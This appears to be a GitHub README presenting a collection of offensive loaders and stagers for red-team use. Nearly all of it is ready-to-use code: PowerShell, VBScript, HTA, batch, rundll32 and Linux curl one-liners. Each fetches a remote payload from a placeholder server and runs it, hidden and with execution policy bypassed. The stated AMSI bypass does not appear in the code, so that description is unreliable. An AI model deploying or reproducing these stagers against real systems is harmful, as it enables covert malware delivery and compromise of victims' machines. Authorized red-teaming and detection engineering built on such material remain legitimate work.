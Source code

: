 # Offensive Loaders & Stagers Collection

This repository contains a curated set of offensive loaders and stagers commonly used in red team operations and penetration testing assessments. These snippets are designed for educational purposes, proof-of-concept demonstrations, and controlled environments only.

> WARNING: This code is intended for legal and authorized testing only. Do not use this repository to engage in any unauthorized or malicious activity. The author assumes no responsibility for misuse.

---

## Loaders Included

### PowerShell Loader

Bypasses AMSI and script block logging, then downloads and executes a remote payload.

```powershell
$code = '$b=new-object net.webclient;$b.proxy=[Net.WebRequest]::GetSystemWebProxy();$b.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX($b.downloadstring("http://yourserver/payload.ps1"))'
$enc = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($code))
powershell -nop -ep bypass -enc $enc
```

---

### VBS Loader

Launches a hidden PowerShell stager from a VBScript payload.

```vbscript
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "powershell -windowstyle hidden -nop -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://yourserver/payload.ps1')"", 0
```

---

### HTA Loader

VBScript in an HTML Application (HTA) to invoke PowerShell.

```html
<html>
  <head>
    <script language="VBScript">
      Set objShell = CreateObject("Wscript.Shell")
      objShell.Run "powershell -nop -w hidden -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://yourserver/payload.ps1')""
    </script>
  </head>
  <body></body>
</html>
```

---

### CMD Loader

Simple batch file to launch a PowerShell encoded command.

```bat
@echo off
powershell -nop -ep bypass -w hidden -enc JABiAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIA...
```

*(Base64 string must be replaced with your own payload)*

---

### rundll32 Loader (COM object abuse)

Executes PowerShell through COM object via `rundll32`.

```bat
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://yourserver/payload.sct")
```

WARNING: Use with hosted `.sct` payload generated via `msfvenom` or similar.

---

### Linux Curl Stager

Downloads and executes a remote ELF binary in memory.

```bash
#!/bin/bash
curl -s http://yourserver/payload.elf -o /tmp/x && chmod +x /tmp/x && /tmp/x
```

You can also use `wget`, `bash -c`, or `mktemp` as alternatives.

---

## Use Cases

- Red Team operations
- Adversary simulation
- Malware analysis research
- Detection engineering & EDR testing

---

## Author

Abdel Bolivar  
Managing Senior Consultant at Bishop Fox  
Email: abolivar@bishopfox.com

---

## License

MIT License. For research and educational use only.
